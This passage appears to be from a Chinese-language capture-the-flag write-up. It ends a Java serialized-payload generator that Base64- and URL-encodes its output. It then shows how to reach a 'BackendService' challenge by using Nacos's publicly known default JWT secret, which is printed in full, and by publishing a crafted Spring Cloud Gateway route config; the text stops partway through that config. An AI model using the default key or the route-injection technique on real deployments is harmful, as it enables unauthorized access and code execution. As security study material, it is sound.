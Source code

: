 ```java
        byte[] data = baos.toByteArray();

        String bugstr = URLEncoder.encode(Base64.getEncoder().encodeToString(data));
        System.out.println(bugstr);
//        try {
//            byte[] decode = Base64.getDecoder().decode(bugstr);
//            ObjectInputStream inputStream = new ObjectInputStream(new ByteArrayInputStream(decode));
//            Object object = inputStream.readObject();
//            result = object.toString();
//        } catch (Exception e) {
//            System.out.println(e.getClass());
//            com.app.Myexpect myexpect = new com.app.Myexpect();
//            myexpect.setTypeparam(new Class[]{String.class});
//            myexpect.setTypearg(new String[]{e.toString()});
//            myexpect.setTargetclass(e.getClass());
//            try {
//                result = myexpect.getAnyexcept().toString();
//            } catch (Exception ex) {
//                result = ex.toString();
//            }
//        }
    }
}
```

![image-20230527164333722](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305271643759.png)

![image-20230527164322538](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305271643587.png)

## BackendService

参考文章

[https://www.cnblogs.com/backlion/p/17246695.html](https://www.cnblogs.com/backlion/p/17246695.html)

[https://xz.aliyun.com/t/11493](https://xz.aliyun.com/t/11493)

结合之前爆出来的 nacos jwt 默认密钥导致的未授权漏洞

```
SecretKey012345678901234567890123456789012345678901234567890123456789
```

![image-20230528123945126](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305281239173.png)

然后直接去 nacos 后台发布配置, 注意 Data ID 为 `backcfg` 并且内容为 json 格式 (参考源码中的 bootstrap.yml)

```json
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "exam",
                        "order": 0,
                        "uri": "http://example.com/",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
```